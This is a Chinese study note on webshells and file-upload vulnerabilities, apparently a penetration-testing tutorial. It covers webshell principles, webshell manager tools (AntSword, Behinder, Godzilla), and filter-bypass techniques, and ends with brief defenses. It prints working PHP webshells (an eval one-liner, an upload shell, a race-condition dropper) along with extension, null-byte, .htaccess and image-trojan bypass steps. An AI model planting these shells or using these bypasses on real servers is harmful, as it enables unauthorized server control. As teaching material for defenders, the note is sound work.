

# 文件漏洞

### 一、WebShell原理

1. 含义：WebShell就是以asp、php、jsp或cgi等网页文件形式存在的一种命令执行环境（网络后门），简单来说可以理解为一种恶意脚本。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下的正常网页文件混在一起，然后可以使用浏览器来访问asp或php后面，==得到一个命令执行环境，以达到控制网站服务器的目的==

2. 优点：

   > 1. 可以穿越防火墙：被控制的服务器或远程主机交换的数据都是通过80端口
   > 2. 不会在系统日志中留下记录：记录只会保留在网站的web日志中

3. 分类：

   > 
   >
   > * **一句话木马**[^注1]
   >
   >   ~~~php
   >   // 将要执行的代码放置在变量pass中，再使用POST方法传递给一句话木马，构造一个命令执行环境
   >   <?php @eval($_POST['pass']); ?>
   >   ~~~
   >
   >   
   >
   >   [^注1]: `eval()`：将字符串作为PHP代码执行
   >
   > * 小马
   >
   >   ~~~php
   >   <?php
   >   @$temp = $_FILES['upload_file']['tmp_name'];
   >   @$file = basename($_FILES['upload_file']['name']);
   >   if(empty($file)){
   >       echo "<form action = '' method = 'post' ENCTYPE='multipart/form-data'>\n";
   >       echo "Local file: <input type = 'file' name = 'upload_file'>\n";
   >       echo "<input type = 'submit' value = 'Upload'>\n";
   >       echo "</form>\n<pre>\n\n</pre>";
   >   }else{
   >       if(move_uploaded_file($temp,$file)){
   >           echo "File uploaded successfully.
\n";
   >       }else{
   >           echo "Unable to upload ".$file."
\n";
   >       }
   >   }
   >   ?>
   >   ~~~
   
4. 注意事项：WebShell的文件类型应该与网站后端的文件类型（可以使用浏览器插件Wappalyzer查看）一致

### 二、菜刀工具

1. 功能：在攻击者入侵网站时，通常要以各种方式写入WebShell，从而获得服务器的控制权限。再植入WebShell文件后，为了方便管理，需要使用到一种WebShell管理工具，即我们所说的菜刀工具

2. 工作原理：

   > 1. 在植入WebShell之后，将植入的WebShell告知菜刀工具，使菜刀工具能够利用WebShell获取权限
   >
   > 2. 在菜刀工具连接到WebShell后，会利用WebShell向服务器传递要执行的代码（发送POST请求包），代码经过加密，且在要执行的时候使用像`base64_decode()`等方式进行解密
   >
   
3. 连接示例：

4. 功能简介：

   > 1. 虚拟终端：
   >
   > 2. 文件资源管理器：
   >
   >    

5. 常见的菜刀工具

   > 1. 中国蚁剑（AntSword）：主要面向于合法授权的渗透测试安全人员及进行常规操作的网站管理员
   >
   >    [项目地址]([AntSwordProject/AntSword-Loader: AntSword 加载器 (github.com)](https://github.com/AntSwordProject/AntSword-Loader))
   >
   > 2. 冰蝎（Behinder）：在通信中使用AES进行加密隐藏流量，php环境方式根据服务端支持情况动态选择，在护网中使用频繁
   >
   >    [项目地址]([rebeyond/Behinder: “冰蝎”动态二进制加密网站管理客户端 (github.com)](https://github.com/rebeyond/Behinder))
   >
   >    > 使用冰蝎不能使用自己的WebShell，必须使用指定的WebShell，其WebShell的地址在安装路径下的server文件夹中
   >    >
   >    > 
   >
   > 3. 哥斯拉（Godzilla）：冰蝎出bug或被拦截之后的备用选项
   >
   >    [项目地址]([BeichenDream/Godzilla: 哥斯拉 (github.com)](https://github.com/BeichenDream/Godzilla))
   >
   >    > 使用步骤：
   >    >
   >    > 1. 点击`管理`→`生成`，自动生成WebShell文件
   >    > 2. 上传WebShell文件
   >    > 3. 点击`目标`→`添加`，添加WebShell至菜刀工具中

### 三、文件上传漏洞

1. 文件上传漏洞：在网站上传普通文件的位置，未对上传的文件进行严格的验证和过滤，导致可以通过绕过上传机制上传任意文件。进而导致用户可以通过上传WebShell（与网站后端语言一致）并执行从而控制服务器

2. 文件上传漏洞的必备条件：

   > 1. 文件上传功能能正常使用：能够通过绕过上传机制上传想要上传的文件
   > 2. 上传文件保存的路径可知：上传文件时，网页通常会带有一个返回显示上传的文件，可以通过查看网页元素的方式查看
   > 3. 上传文件可以被访问：可以通过文件的路径访问到改文件
   > 4. 上传文件可以被解析：访问该文件时，不会将源码作为网页元素直接输出

3. 检测上传文件的方式：

   > 1. 客户端Javascript检测：检测文件的扩展名
   > 2. 服务端MIME类型检测：在服务端中，使用`$_FILES`访问文件信息，检测POST报文content-type字段的内容（存储在`$_FILES[按钮的name属性值][type]`中）
   > 3. 服务端文件扩展名检测：检测跟文件extension相关的内容
   > 4. 服务端文件内容检测：检测内容是否合法、是否含有恶意代码等

4. 绕过方法

   > 1. 客户端Javascript检测：在浏览器中禁用网页的Javascript权限
   >
   > 2. 服务端MIME类型检测：使用Burp抓包，更改POST报文中的content-type字段的内容
   >
   >    > 若表单由多个数据（多部分实体），则需要使用boundary指定分隔符，用于封装消息的多个部分的边界，存储在报文主体中。
   >    >
   >    > 需要更改的content-type字段也不是报文首部的content-type字段，而是存储在报文主体中对应上传文件的content-type字段
   >    >
   >    > 
   >    >
   >
   > 3. 黑名单检测（文件扩展名检测）
   >
   >    > 1. 黑名单：代码文件中包含一个数组或列表，其值为一些非法字符或字符串，当数据报包含有符合该列表的字符串时，就认定该数据包是非法的
   >    >
   >    > 2. 确认黑名单的方法：**随意构造**一个必定不在列表中的数据包，若能上传则说明是黑名单检测
   >    >
   >    > 3. 绕过方法：通过抓包修改文件后缀名
   >    >
   >    >    > * 利用后缀大小写进行绕过：Windows中对大小写是不敏感的
   >    >    >
   >    >    >   `"1.php"` → `"1.Php"`
   >    >    >
   >    >    >   > 判断操作系统：使用ping命令，若TTL的值为两位数，则说明为Linux系统；若TTL为三位数，说明为Windows系统
   >    >    >
   >    >    > * 利用空格绕过：Windows在保存文件时，会自动去除末尾的空格
   >    >    >
   >    >    >   `"1.php"` → `"1.php "`
   >    >    >
   >    >    > * 利用`.`绕过：Windows在保存文件时，会自动去除末尾的`.`
   >    >    >
   >    >    >   `"1.php"` → `"1.php."`
   >    >    >
   >    >    > * 利用`::$DATA`绕过：在Windows中，如果文件名 + `::$DATA`会把`::$DATA`之后的数据当成文件流处理，不会检测后缀名，且保持`::$DATA`之前的文件名
   >    >    >
   >    >    >   `"1.php"` → `"1.php::$DATA"`
   >    >    >
   >    >    > * 利用双写后缀绕过：有些代码中，会将数据包中符合黑名单列表的字符串替换为空，而不会直接报错。这就导致了在上传成功后，访问不到之前上传的文件（因为文件后缀被替换为空）
   >    >    >
   >    >    >   `"1.php"`→`"1.pphphp"`
   >    >    >
   >    >    > > 这几种绕过方式可以一起使用，比如使用`01.php. .`的方式绕过
   >    >    >
   >    >    > * 利用`.htaccess`文件绕过：只作用于Apache服务器
   >    >    >
   >    >    >   > 步骤：
   >    >    >   >
   >    >    >   > 1. 创建一个`.htaccess`文件
   >    >    >   >
   >    >    >   >    ~~~test
   >    >    >   >    <FilesMatch "1.png">	-- ""中的内容为一个WebShell文件更改后缀
   >    >    >   >    setHandler application/x-httpd-php
   >    >    >   >    </FilesMatch>
   >    >    >   >    ~~~
   >    >    >   >
   >    >    >   > 2. 将`.htaccess`文件上传到服务器
   >    >    >   >
   >    >    >   > 3. 将WebShell文件更改后缀，上传到服务器
   >    >    >   >
   >    >    >   > 4. 直接访问更改了后缀的WebShell文件也可执行该文件
   >    >    >
   >    >    >   > 原理：
   >    >    >   >
   >    >    >   > 
   >    >    >
   >    >    > * 替换.php后缀为其它后缀进行绕过：需要进行配置（Linux配置中默认是打开的；而Apache配置中是需要自行添加的），一般替换为`.phtml`
   >    >    >
   >    >    >   > Linux中的配置文件位置：/etc/mime.types文件
   >    >    >   >
   >    >    >   > 
   >    >    >   >
   >    >    >   > Apache中配置文件的位置：Apache安装路径下\conf\httpd.conf文件（需要自行添加）
   >    >    >   >
   >    >    >   > 
   >
   > 4. 白名单检测（文件扩展名检测）
   >
   >    > 1. 白名单：代码文件中包含一个数组或列表，其值为所有合法字符或字符串，当数据包中含有不符合该列表的字符串时，就认定该数据包是非法的
   >    >
   >    > 2. 确认白名单的方法：**随意构造**一个必定不在列表中的数据包，若不能上传则说明是白名单检测
   >    >
   >    > 3. 绕过方法：（前提：php版本小于5.3.29，且php.ini中的magic_quotes_gpc为OFF状态）服务端判断文件类型是从后往前判断，而文件解析是从后往前解析，故可以利用00截断的方式进行绕过
   >    >
   >    >    > * %00截断
   >    >    >   1. 原理：当url中出现了%00就会认为读取已经结束
   >    >    >
   >    >    >   2. 利用：在POST请求行后的URI后加上WebShell的文件名，并以%00结束。在之后移动文件的时候将会让路径名与文件名拼接，%00的出现会自动忽略之后的文件名，并以URI后加上WebShell的文件名的形式储存文件
   >    >    >
   >    >    >      `/upload` →`/upload/1.php%00`
   >    >    >
   >    >    >      ---
   >    >    >
   >    >    >      `/upload/1.png`→`/upload/1.php%00/1.png`→等效于将文件存储为`/upload/1.php`
   >    >    >
   >    >    >   3. 步骤：
   >    >    >
   >    >    >      > 1. 更改WebShell的后缀名，使其能够上传
   >    >    >      > 2. 上传Webshell并抓包，修改POST请求行中的URI
   >    >    >
   >    >    > * 0x00截断
   >    >    >
   >    >    >   1. 原理：当url中出现了0x00就会认为读取已经结束
   >    >    >
   >    >    >   2. 利用：若文件的保存路径通过表单传参，则需要在保存路径参数后加上WebShell的文件名，并以0x00结束。在Burp中修改时，需要使用Hex模块，添加00【可以在需要添加00的地方加上空格，再在Hex模块中找到添加空格的位置（空格的十六进制编码为20），将其替换为00】
   >    >    >
   >    >    >   3. 步骤：
   >    >    >
   >    >    >      > 1. 更改WebShell的后缀名，使其能够上传
   >    >    >      > 2. 上传Webshell并抓包，修改表单传递的路径参数
   >
   > 5. 文件内容检测：
   >
   >    > 通过开头的文件幻数进行检测：判断文件开头的前10个字节，基本就能判断出一个文件的真实类型
   >    >
   >    > > 文件格式幻数（magic number），它可以用来标记文件或者协议的格式
   >    > >
   >    > > 如：
   >    > >
   >    > > Note：
   >    > >
   >    > > * 大部分文件的文件幻数都含有不便于输入的特殊字符，而gif图的文件幻数为`GIF89a`，可以方便地利用
   >    > >
   >    > > * 常见的文件幻数标记
   >    > >
   >    > >   | 文件类型   | 文件幻数(十六进制编码) |
   >    > >   | ---------- | ---------------------- |
   >    > >   | jpg        | FFD8FF                 |
   >    > >   | png        | 89504E47               |
   >    > >   | gif        | 47494638               |
   >    > >   | html       | 68746D6C3E             |
   >    > >   | zip        | 504B0304               |
   >    > >   | rar        | 52617221               |
   >    > >   | pdf        | 225044462D312E         |
   >    > >   | xls 或 doc | D0CF11E0               |
   >    >
   >    > 绕过方法：
   >    >
   >    > > 1. 使用16进制编辑器打开一个图片，在图片后面插入WebShell，且文件的扩展名应该与WebShell的类型对应
   >    > >
   >    > > 2. 在WebShell前插入符合伪装文件类型的文件幻数
   >    > >
   >    > > 3. 在cmd下执行：`copy 01.png/b + test.php/a shell.jpg`，制作图片马
   >    > >
   >    > >    ==使用的图片文件越小越好==
   >    >
   >    > 若是遇到了二次渲染图片的情况，可以参考[这篇文章](https://xz.aliyun.com/t/2657#toc-1)
   >
   > 6. 针对不规范的上传流程：利用条件竞争绕过文件删除
   >
   >    > 规范的上传流程：
   >    >
   >    > 不规范的上传流程：
   >    >
   >    > 若服务器在获取第二次请求后，是**先移动文件至指定目录，再判断文件是否有效**，若无效，则删除，则可以使用
   >
   >    > 条件竞争：多个线程或进程在读写一个共享数据时结果依赖于它们执行的相对时间
   >
   >    原理：利用php代码生成新的webshell文件，在此代码未被删除之前，访问它，则可以添加webshell文件至服务器
   >
   >    创建webshell的代码示例：
   >
   >    ~~~php
   >    <?php
   >      fputs(fopen('01.php','w'), '<?php @eval($_POST["pass"]); ?>');
   >    ?>
   >    /* 
   >       >fputs：fwrite的别名，写入文件；fopen：打开文件，若不存在，则创建
   >       >相当于创建一个新的webshell
   >       >贼坑人的点，再写入数据的时候需要使用单引号包裹，因为使用双引号会解析里面的$变量
   >    */
   >    ~~~
   >
   >    绕过步骤：
   >
   >    > 1. 创建生成webshell代码的php文件
   >    > 2. 使用burp的空字典爆破功能上传该文件
   >    > 3. 使用burp的空字典爆破功能访问上传的文件
   >    > 4. 等待一段时间，若步骤3出现200 OK状态码，则可以停止
   >    > 5. 在文件保存的目录下，会出现webshell文件
   >

5. 防御方法：

   > 1. 设置上传的目录为不可执行
   > 2. 在文件后缀的判断中使用白名单的方式
   > 3. 文件服务器与web服务器进行分离
   > 4. 不需要返回文件路径的情况下，随机改写文件名

